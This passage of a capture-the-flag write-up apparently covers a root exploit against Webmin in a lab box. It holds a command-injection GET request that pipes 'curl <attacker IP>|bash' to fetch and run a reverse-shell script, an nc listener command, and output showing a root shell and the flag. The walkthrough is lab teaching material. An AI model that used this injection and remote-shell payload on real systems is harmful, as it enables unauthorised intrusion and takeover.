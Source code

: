 Needs to login first

Login with creds gathered previously from mysql database

![](../../attachment/cb5b7e4c1d96f2ed227cc72e305f4684.png)

Only need to send a get request to RCE

![](../../attachment/e3652ad65498ce93acc06a90ac98376c.png)

Start http server with reverse shell script written in `index.html`

```bash
┌──(kali㉿kali)-[~/scripts/www-revshell]
└─$ python3 -m http.server 80
```

Start reverse shell listener

```bash
rlwrap -r -f . nc -nlvp 1111
```

Get the `sid` from cookie and use `httpie` for auto url encode

```bash
http 'http://127.0.0.1:10000/file/show.cgi/bin/123aaa|curl 10.11.19.145|bash|' 'Cookie: sid=840c6c901d6bd7af92b0b4b60885fd7f'
```

```bash
┌──(kali㉿kali)-[~/scripts/www-revshell]
└─$ rlwrap -r -f . nc -nlvp 1111
listening on [any] 1111 ...
connect to [10.11.19.145] from (UNKNOWN) [10.10.233.188] 50842
bash: cannot set terminal process group (1246): Inappropriate ioctl for device
bash: no job control in this shell
root@gamezone:/usr/share/webmin/file/# id
id
uid=0(root) gid=0(root) groups=0(root)
root@gamezone:/usr/share/webmin/file/# cat /root/root.txt
cat /root/root.txt
a4b945830144bdd71908d12d902adeee
root@gamezone:/usr/share/webmin/file/#
```